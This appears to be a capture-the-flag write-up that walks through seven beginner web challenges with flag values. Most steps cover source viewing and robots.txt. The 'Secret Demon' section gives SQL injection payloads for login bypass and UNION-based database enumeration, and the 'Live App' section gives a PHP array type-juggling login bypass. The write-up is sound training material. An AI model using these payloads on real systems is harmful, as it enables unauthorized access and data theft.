## Challenges
1. Lorem lpsum
2. My First Website
3. My Second Website
4. Consoling
5. Takeover
6. Secret Deomn
7. Live App

## Lorem Ipsum


o	Step 1 : Go to the link


o	Step 2: view the source to find the flag


## My First Website


•	My First Website

o	Step 1: Go to the link


o	Step 2: Inspect element, there is a base 64 encoded string in the alt field


o	Step 3: base 64 decode and convert from hex to get the flag


## My Second Website


o	Step 1: Go to the link


o	Step 2: add robots.txt behind the url


o	Step 3: Go to the html page


## Consoling



o	Step 1: Go to the link



o	Step 2: looking at the source, there is 3 different html pages


o	Step 3: going to the realflag.html page


o	Step 4: viewing the source, it says totry listfunctions()


o	Step 5: try list functions in the console


o	Step 6: run the get flag and get key function to get the flag



## Takeover


o	Step 1: Go to the link




o	Step 2: Go to robots.txt




o	Step 3: Going to the flag.html page, 




o	Step 4: search for the } as there are many strings which start with NYP{







## Secret Demon
```
This was solved after the CTF
```


o	Step 1: use the payload below as the username and any character in the password field to login
```
admin' or 1=1 #
```


o	Step 2: use the payload below in the search field to list all the tables in the database
```
'UNION SELECT table_schema, table_name, 1 From information_schema.tables#
```


o	Step 3: use the payload below in the search field to list the columns in security_challenge.oni_xyza table
```
' UNION SELECT table_name, column_name, 1 FROM information_schema.columns where table_name = 'oni_xyza'#
```


o	Step 4: use the payload below in the search field to list the secret column in the oni_xyza table to get the flag
```
'UNION SELECT NULL, NULL, secret From security_challenge.oni_xyza #
```


```
flag: NYP{T4mAy0_i5_Qu33N}
```

## Live App
```
This was solved after the CTF
```


o Step 1: Use Burp to Intercept a post request


o Step 2: add a [] in front of the username and password and send the request to get the flag

```
username[]=&password[]=&login=Login
```


```
flag: NYP{type_juggling!}
```
